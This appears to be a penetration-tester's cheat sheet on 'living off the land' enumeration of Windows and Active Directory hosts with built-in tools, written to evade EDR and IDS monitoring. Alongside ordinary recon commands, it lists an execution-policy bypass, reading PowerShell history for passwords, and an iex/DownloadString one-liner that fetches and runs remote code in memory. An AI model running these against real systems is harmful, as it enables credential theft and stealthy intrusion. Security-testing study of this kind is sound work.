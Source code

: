 
# Living OFF the Land

When traditional methods fail, "living off the land" utilizes native Windows tools and commands for stealthier enumeration. This approach minimizes log entries, reduces the chance of detection by monitoring tools, and aligns with scenarios where uploading external tools isn't feasible.

### **Scenario**
- Client request: Test AD environment from a managed host with no internet and no external tool uploads.
- Goal: Identify possible enumeration activities using only built-in tools, avoiding alerts from monitoring systems such as IDS/IPS or enterprise EDR.
- Strategy: Use native Windows utilities to explore the host and network configurations, maintain stealth, and minimize defender-triggered responses.



### **Host and Network Recon: Key Commands**

#### **Basic Enumeration Commands**
| Command                                   | Description                                                                                   |
|-------------------------------------------|-----------------------------------------------------------------------------------------------|
| `hostname`                                | Displays the PC's name.                                                                       |
| `[System.Environment]::OSVersion.Version` | Prints the OS version and revision level.                                                    |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Lists applied patches and hotfixes.                                                           |
| `ipconfig /all`                           | Outputs network adapter configurations.                                                      |
| `set`                                     | Displays environment variables for the current session.                                       |
| `echo %USERDOMAIN%`                       | Prints the domain name of the host.                                                          |
| `echo %logonserver%`                      | Shows the name of the domain controller the host checks in with.                             |
| `systeminfo`                              | Provides a summary of host information in one tidy output (e.g., OS, domain, network details).|


### **Harnessing PowerShell for Advanced Recon**
PowerShell offers extensive capabilities for system and network reconnaissance.

#### **Essential PowerShell Cmdlets**
| Cmdlet                                             | Description                                                                                     |
|----------------------------------------------------|-------------------------------------------------------------------------------------------------|
| `Get-Module`                                       | Lists available modules.                                                                        |
| `Get-ExecutionPolicy -List`                        | Displays execution policies by scope.                                                          |
| `Set-ExecutionPolicy Bypass -Scope Process`        | Temporarily bypasses execution policy for the current session.                                  |
| `Get-ChildItem Env: | ft Key,Value`                | Lists environment variables with keys and values.                                               |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt` | Retrieves PowerShell history for potential insights (e.g., scripts or passwords).               |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL'); <commands>"` | Downloads and executes content directly in memory (if internet access is available).            |
